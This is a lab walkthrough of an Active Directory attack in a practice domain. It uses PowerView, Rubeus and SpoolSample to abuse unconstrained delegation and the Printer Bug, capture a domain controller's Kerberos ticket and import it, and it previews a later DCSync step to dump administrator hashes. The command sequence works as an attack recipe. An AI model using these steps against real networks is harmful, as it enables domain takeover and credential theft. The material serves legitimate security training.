

Unconstrained Delegation & Printer Bug
Objective: To compromise the Domain Controller by coercing it to authenticate to a machine we control that is configured with Unconstrained Delegation.
Concept: When a server is configured with TRUSTED_FOR_DELEGATION (Unconstrained Delegation), any user or machine that authenticates to it will leave a copy of its Ticket Granting Ticket (TGT) in the server's LSASS memory. By abusing the legacy Printer Bug (MS-RPRN), we can force the Domain Controller's machine account (DC01$) to authenticate to our compromised workstation. We can then extract this TGT and inject it into our own session.
Before setting the trap, we needed to verify which machines in the shinobi.local domain were configured with Unconstrained Delegation.
Tool: PowerView
Command:
Get-NetComputer -Unconstrained -Server 192.168.56.10 -Properties distinguishedname,samaccountname,dnshostname,useraccountcontrol | Select-Object distinguishedname,samaccountname,dnshostname,useraccountcontrolFindings: The query confirmed that our currently compromised workstation (WRS01$) has the TRUSTED_FOR_DELEGATION property enabled, making it a viable target to catch incoming tickets.
With local Administrator privileges on WRS01$, we initiated a memory monitor to capture any new Kerberos TGTs that get dropped into LSASS.
Tool: Rubeus.exe
Command:
.\Rubeus.exe monitor /interval:1Findings: Rubeus successfully began polling the system memory every 1 second.
While Rubeus was listening, we triggered the MS-RPRN abuse to force the Domain Controller to reach out to our workstation.
Tool: SpoolSample.exe
Command:
.\SpoolSample.exe DC01.shinobi.local WRS01.shinobi.localFindings: The tool successfully called the RpcRemoteFindFirstPrinterChangeNotificationEx API. The target server (DC01) attempted authentication and received an "access denied" message, which confirms the coerced authentication occurred exactly as expected.
Switching back to our Rubeus monitoring window, the trap was successful.
Findings: Rubeus intercepted the incoming authentication and dumped the Base64-encoded TGT belonging to DC01$@SHINOBI.LOCAL. Because WRS01$ had Unconstrained Delegation, a full, usable TGT was forwarded.
The final step of this phase was to import the captured Domain Controller ticket into our current attacker session.
Tool: Rubeus.exe & native klist
Command:
.\Rubeus.exe ptt /ticket:doIFmjCCB...[Base64_String]
klist
Findings: 1. Rubeus reported [+] Ticket successfully imported!.
klist verified that the cached ticket for Client: DC01$ @ SHINOBI.LOCAL was successfully loaded into our current LogonId.
At this point, our session holds the Kerberos identity of the Domain Controller (DC01$). Due to SMB restrictions preventing a machine account from easily accessing its own shares over the network via Kerberos, native tools like PsExec or dir \\DC01\c$ may return Access Denied.
In the later stages of this lab, this cached ticket will be weaponized using alternative protocols (such as DRSUAPI) to perform a DCSync attack. This will allow us to dump the Domain Administrator hashes and achieve total domain compromise.
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}